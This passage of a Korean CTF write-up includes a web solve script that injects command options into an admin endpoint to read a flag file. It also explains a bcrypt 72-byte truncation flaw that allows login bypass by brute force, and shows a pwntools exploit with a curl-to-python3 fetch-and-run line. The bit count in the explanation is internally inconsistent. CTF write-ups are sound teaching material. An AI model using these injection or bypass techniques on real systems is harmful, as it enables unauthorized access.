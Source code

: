 ```py
#print(admin_cookie)
send_request(bypass_url + "/upload", "asdf", admin_cookie, True)
user_path = "./uploads/" + send_request(bypass_url + "/admin", {"options":["./uploads/.","/boot","-S"]}, admin_cookie, False).split(idpw)[0][-17:] + idpw
#print(user_path)
send_request(bypass_url + "/admin", {"options":["-t",user_path,"/flag.txt","-S"]}, admin_cookie, False)

print('HCTF{'+send_request(bypass_url + "/file", {"filename":"flag.txt"}, cookie, False).split("HCTF{")[1].split("}")[0]+'}')
```

##### asdf.txt
```plaintext
asdf
```

### Crypto
#### atko

이 문제의 이름은 okta에서 착안하였습니다. [이 문서](https://trust.okta.com/security-advisories/okta-ad-ldap-delegated-authentication-username/)는 okta의 보안 권고에서 파생된 취약점 분석입니다.

```python
def gen_cache_key(user_id, username, password, salt):
    return bcrypt.hashpw(user_id + username + password, salt)
```

이 함수는 `user_id`, `username`, `password`를 이어 붙여 bcrypt 해시 키를 생성합니다.  
하지만 다음과 같은 제약 조건이 존재합니다.

- 한 사용자 계정의 `username` 길이는 **항상 39바이트**입니다.
- `user_id`는 **32바이트**로 고정되어 있습니다.
- bcrypt는 입력 문자열의 최대 길이가 **72바이트**로 제한됩니다.

따라서 아래와 같이 계산할 수 있습니다.

```
72 - 32(user_id) - 39(username) = 1
```

즉, password의 **선두 1바이트(2 hex digit)만 유효하고**, 나머지는 무시됩니다. 이로 인해 bcrypt 입력 값은 password 전체가 아닌 **첫 1바이트(8비트)**만 반영되며, 그 결과 캐시 키 생성 시 password가 사실상 **4비트만 brute-force 하면** 인증 우회가 가능해집니다.

이를 악용하면,

- 해당 username에 대해 password prefix를 16가지 경우의 수로 브루트포스하고,
- 성공 시 로그인 및 메모(memo) 데이터 접근이 가능하게 됩니다.

##### ex.py
```python
from string import hexdigits

import pwn

pwn.context.log_level = "DEBUG"
DEBUG = False
if DEBUG:
    tn = pwn.process(["python3.10", "../prob/for_organizer/chall.py"])
else:
    tn = pwn.remote("localhost", 43625)

    def PoW():
        import subprocess

        tn.recvuntil(b"python3 <(curl -sSL https://goo.gle/kctf-pow) solve ")
        token = tn.recvline(keepends=False).decode()
        pwn.log.info(f"PoW token = {token}")
```